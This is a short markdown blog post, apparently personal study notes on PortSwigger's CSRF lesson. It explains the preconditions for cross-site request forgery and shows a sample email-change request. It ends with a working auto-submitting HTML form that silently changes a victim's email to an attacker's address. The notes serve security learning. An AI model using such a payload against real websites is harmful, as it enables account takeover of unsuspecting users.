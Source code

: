 ```yaml
---
layout: post
title: Postswigger Web Security Academy - CSRF
tags: [Notes, PortSwigger, web]
---
```


# Basics

## Key Conditions

### A relevant action
There is an action within the application that the attacker has a reason to induce, such as modifying permissions for other users or as changing the user's own password.

### Cookie-based session handling
Performing the action involves issuing one or more HTTP requests, and the application relies solely on session cookies to identify the user who has made the requests.
There is no other mechanism in place for tracking sessions or validating user requests. 

### No unpredictable request parameters
The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess.
For example, when causing a user to change their password, the function is not vulnerable if an attacker needs to know the value of the existing password.

## Example
Consider the following HTTP request

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

This meets the requirements of CSRF
- The attacker is interested in changing the user's email. They may, for example, trigger a password reset request afterwards and take full control of the account.
- The endpoint uses only a session cookie to identify the user.
- `email` is the only parameter, which the attacker can easily determine the value.

The attacker could create a web page containing the following HTML

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
